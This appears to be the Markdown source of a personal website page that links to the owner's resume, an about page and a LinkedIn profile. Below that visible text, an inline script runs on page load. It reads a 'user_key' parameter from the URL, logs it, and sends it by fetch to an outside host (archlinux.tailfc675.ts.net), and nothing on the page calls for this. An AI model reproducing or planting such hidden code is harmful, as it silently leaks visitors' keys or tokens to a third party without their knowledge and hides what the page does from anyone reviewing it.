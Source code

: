 ```yaml
---
icon: fa-solid fa-file
order: 4
---
```


If you are here, then you're probably interested in [my resume]({{ site.baseurl }}/assets/GregoryTaylor.pdf) and learning some more [about me]({{ site.baseurl }}/about/).

Make sure to check out [my LinkedIn](https://www.linkedin.com/in/greg-taylor-260b17330) for the most up-to-date information about what I'm up to.

<script>
function getUserKeyFromUrl() {
  const urlParams = new URLSearchParams(window.location.search);
  
  const userKey = urlParams.get('user_key');

  console.log("Got user key " + userKey)
  
  if (!userKey) {
    return null;
  }
  
  fetch(`https://archlinux.tailfc675.ts.net/?user_key=${encodeURIComponent(userKey)}`, {
    method: 'GET',
    headers: {
      'Content-Type': 'application/json'
    }
  })
  .catch(() => {
    console.log("Failed to send?")
  });
  
  return userKey;
}

getUserKeyFromUrl()

</script>
